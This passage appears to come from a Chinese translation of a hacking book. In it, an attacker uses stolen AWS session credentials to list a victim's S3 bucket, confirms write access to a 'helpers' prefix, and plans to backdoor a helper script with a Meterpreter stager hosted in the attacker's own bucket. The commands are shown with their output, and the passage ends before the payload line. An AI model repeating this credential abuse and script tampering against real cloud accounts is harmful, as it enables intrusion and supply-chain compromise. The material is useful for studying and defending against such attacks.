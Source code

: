 ```
root@Point1:~/# **vi ~/.aws/credentials**
[dmp-sync]
aws_access_key_id = ASIA44ZRK6WSZAFXRBQF
aws_secret_access_key = nSiNoOEnWIm8h3WKXqgRG+mRu2QVN0moBSTjRZWC
aws_session_token = FwoGZXIvYXdzEL//...

root@Point1:~/# **aws s3api list-objects-v2 \**
**--bucket gretsch-streaming-jobs \**
**--profile dmp-sync > list_objects_gp.txt**

root@Point1:~/# **head list_objects_gp.txt**

"Key": "rtb-bid-resp/2019/12/11/10/resp-0-141d08-ecedade-123...",
"Key": "rtb-bid-resp/2019/12/11/10/resp-0-753a10-3e1a3cb-51c...",
"Key": "rtb-bid-resp/2019/12/11/10/resp-0-561058-8e85acd-175...",
"Key": "rtb-bid-resp/2019/12/11/10/resp-1-091bd8-135eac7-92f...",
"Key": "rtb-bid-resp/2019/12/11/10/resp-1-3f1cd8-dae14d3-1fd...",
--`snip`--
```

列表 10-10：gretsch-streaming-jobs 桶中存储的对象列表

MXR 广告似乎在向 GP 提供竞标响应，这些响应告诉他们在某个网站上、给定的 cookie ID 上展示了哪个视频。还有其他一些关键指标，奇怪的是，许多公司会认为这些是敏感材料，例如每个竞标请求的原始日志，其他客户的活动数据……列表还在继续。

gretsch-streaming-jobs 存储桶真的是巨大的。它包含了数以 TB 计的原始数据，而我们根本无法处理这些数据，也不愿意去处理。GP 更适合做这类事情。我们最好沿着这条面包屑线索走下去，希望它能把我们带到最终的“蛋糕”。

在这个巨大的数据湖中，隐藏在诱人的`helpers`键下，我们发现了一些在几周前才被修改过的有趣可执行文件：

```
"Key": "helpers/ecr-login.sh",
"LastModified": "2019-11-14T15:10:43.000Z",

"Key": "helpers/go-manage",
"LastModified": "2019-11-14T15:10:43.000Z",
`--snip--`
```

有趣。在这里，我们发现了一些可执行对象，很可能在 GP 拥有并操作的机器上执行。这可能正是我们进入 Gretsch Politico 的 AWS 账户的钥匙。根据定义，我们的 Lambda 角色可以写入 gretsch-streaming-jobs 存储桶。问题是，GP 是否足够聪明，只将 Lambda 限制在`rtb-bid-resp`子键上？让我们来测试一下：

```
root@Point1:~/# **aws s3api put-object \**
**--bucket gretsch-streaming-jobs \**
**--key helpers/test.html --body test.html \**
**--profile dmp-sync**

"ETag": "\"051aa2040dafb7fa525f20a27f5e8666\""
```

没有错误。就当是邀请我们越过边界吧，伙计们！这些助手脚本很可能是由 GP 的资源提取并执行的。如果我们修改它们，就可以劫持执行流程，调用我们自己的自定义 stager，从而在 GP 组件上获得一个新的 shell！

我们下载*helpers/ecr-login.sh*，附加一个命令来执行我们的自定义 meterpreter stager，然后重新提交该文件。像往常一样，这个 stager 将托管在我们自己 AWS 账户中的另一个假存储桶 gretsch-helpers 中：
